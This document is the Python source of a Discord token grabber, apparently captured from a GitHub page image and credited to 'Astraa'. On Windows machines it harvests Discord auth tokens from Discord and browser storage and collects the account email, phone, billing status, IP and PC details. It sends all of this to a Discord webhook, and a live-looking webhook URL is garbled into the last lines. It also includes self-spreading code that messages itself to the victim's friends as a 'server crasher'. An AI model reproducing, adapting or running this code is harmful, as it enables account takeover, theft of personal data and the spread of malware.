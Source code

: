 import os
if os.name != "nt":
    exit()
from re import findall
from json import loads, dumps
from base64 import b64decode
from subprocess import Popen, PIPE
from urllib.request import Request, urlopen
from datetime import datetime
from threading import Thread
from time import sleep
from sys import argv
LOCAL = os.getenv("LOCALAPPDATA")
ROAMING = os.getenv("APPDATA")
PATHS = {
    "Discord"           : ROAMING + "\\Discord",
    "Discord Canary"    : ROAMING + "\\discordcanary",
    "Discord PTB"       : ROAMING + "\\discordptb",
    "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
    "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
    "Opera GX"          : ROAMING + "\\Opera Software\\Opera GX Stable",
    "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
    "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
}
def getheaders(token=None, content_type="application/json"):
    headers = {
        "Content-Type": content_type,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }
    if token:
        headers.update({"Authorization": token})
    return headers
def getuserdata(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
    except:
        pass
def gettokens(path):
    path += "\\Local Storage\\leveldb"
    tokens = []
    for file_name in os.listdir(path):
        if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
            continue
        for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
            for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                for token in findall(regex, line):
                    tokens.append(token)
    return tokens
def getdeveloper():
    dev = "wodx"
    try:
        dev = urlopen(Request("https://pastebin.com/raw/ssFxiejv")).read().decode()
    except:
        pass
    return dev
def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except:
        pass
    return ip
def getavatar(uid, aid):
    url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}.gif"
    try:
        urlopen(Request(url))
    except:
        url = url[:-4]
    return url
def gethwid():
    p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
    return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
def getfriends(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
    except:
        pass
def getchat(token, uid):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
    except:
        pass
def has_payment_methods(token):
    try:
        return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
    except:
        pass
def send_message(token, chat_id, form_data):
    try:
        urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
    except:
        pass
def spread(token, form_data, delay):
    return # Remove to re-enabled
    for friend in getfriends(token):
        try:
            chat_id = getchat(token, friend["id"])
            send_message(token, chat_id, form_data)
        except Exception as e:
            pass
        sleep(delay)
def main():
    cache_path = ROAMING + "\\.cache~$"
    prevent_spam = True
    self_spread = True
    embeds = []
    working = []
    checked = []
    already_cached_tokens = []
    working_ids = []
    ip = getip()
    pc_username = os.getenv("UserName")
    pc_name = os.getenv("COMPUTERNAME")
    user_path_name = os.getenv("userprofile").split("\\")[2]
    developer = getdeveloper()
    for platform, path in PATHS.items():
        if not os.path.exists(path):
            continue
        for token in gettokens(path):
            if token in checked:
                continue
            checked.append(token)
            uid = None
            if not token.startswith("mfa."):
                try:
                    uid = b64decode(token.split(".")[0].encode()).decode()
                except:
                    pass
                if not uid or uid in working_ids:
                    continue
            user_data = getuserdata(token)
            if not user_data:
                continue
            working_ids.append(uid)
            working.append(token)
            username = user_data["username"] + "#" + str(user_data["discriminator"])
            user_id = user_data["id"]
            avatar_id = user_data["avatar"]
            avatar_url = getavatar(user_id, avatar_id)
            email = user_data.get("email")
            phone = user_data.get("phone")
            nitro = bool(user_data.get("premium_type"))
            billing = bool(has_payment_methods(token))
            embed = {
                "color": 0x7289da,
                "fields": [
                    {
                        "name": "**Account Info**",
                        "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                        "inline": True
                    },
                    {
                        "name": "**PC Info**",
                        "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                        "inline": True
                    },
                    {
                        "name": "**Token**",
                        "value": token,
                        "inline": False
                    }
                ],
                "author": {
                    "name": f"{username} ({user_id})",
                    "icon_url": avatar_url
                },
                "footer": {
                    "text": f"Token Grabber By Astraa",
                }
            }
            embeds.append(embed)
    with open(cache_path, "a") as file:
        for token in checked:
            if not token in already_cached_tokens:
                file.write(token + "\n")
    if len(working) == 0:
        working.append('123')
    webhook = {
        "content": "",
        "embeds": embeds,
        "username": "Discord Token Grabber",
        "avatar_url": "https://discordapp.com/assets/5ccabf62108d5a8074ddd95af2211727.png"
    }
    try:
        urlopen(Request("WEBHOOK_URL", data=dumps(webhook).encode(), headers=getheaders()))
    except:
        pass
    if self_spread:
        for token in working:
            with open(argv[0], encoding="utf-8") as file:
                content = file.read()
            payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nserver crasher. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
            Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
try: https://discordapp.com/api/webhooks/978041003124617236/IuSNZd4fgLOGo8IjWNYBk-jpOGs2nBhSzfR5Wl-jg-6eCI4Og9nCHlNf8iQMAvxvKAvb
    main()
except Exception as e:
    print(e)
    pass
